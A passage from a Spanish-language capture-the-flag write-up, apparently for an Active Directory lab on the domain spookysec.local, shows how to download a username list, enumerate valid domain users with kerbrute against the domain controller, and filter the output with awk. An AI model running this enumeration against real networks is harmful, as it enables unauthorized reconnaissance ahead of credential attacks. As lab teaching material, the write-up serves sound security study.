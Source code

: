 ```bash
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

![Imagen05](5.jpeg)


Pues lanzamos kerbrute. 

```bash
kerbrute userenum -d spookysec.local --dc <IP_Objetivo> userlist.txt -o kerbrute.txt
```

![Imagen06](6.jpeg)

Si le hacemos un cat al archivo generado podremos ver los resultados. Vamos a ver una lista de usuarios válidos en el dominio (16 para ser más exactos), pero en un formato que no nos interesa, luego explicaremos por qué. Así que lo que vamos a hacer, es tratar la salida de este archivo y ponerle un formato en el que solo se muestren los usuarios. Para ello, podemos ejecutar el siguiente comando 

```bash
cat kerbrute.txt | awk -F ' ' '{print $7}' > users_valid.txt
```
